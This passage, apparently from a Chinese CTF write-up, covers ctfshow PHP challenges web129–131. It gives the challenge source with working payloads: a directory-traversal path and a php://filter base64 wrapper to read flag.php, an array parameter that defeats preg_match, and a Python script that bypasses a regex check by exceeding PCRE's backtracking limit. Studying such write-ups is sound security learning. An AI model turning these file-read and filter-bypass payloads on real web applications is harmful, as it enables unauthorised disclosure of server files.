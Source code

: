 ```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
}
```

stripos — 查找字符串首次出现的位置（不区分大小写）

目录穿越

```
payload: /ctfshow/../../../../var/www/html/flag.php
php://filter/read=convert.base64-encode|ctfshow/resource=flag.php
```

## web130、131(正则最大回溯次数绕过)

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];
    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }
    echo $flag;
} 
```

非预期

```
f[]=ctfshow //preg_match不处理数组直接返回false
```

利用正则最大回溯次数绕过

```py
import requests

url = 'http://d5f1a71a-d8fd-4b3e-a718-e4eb2132c5ce.challenge.ctf.show'

data = {
    'f':'very'*250000 + 'ctfshow'
}
response = requests.post(url,data=data)

print(response.text)
```
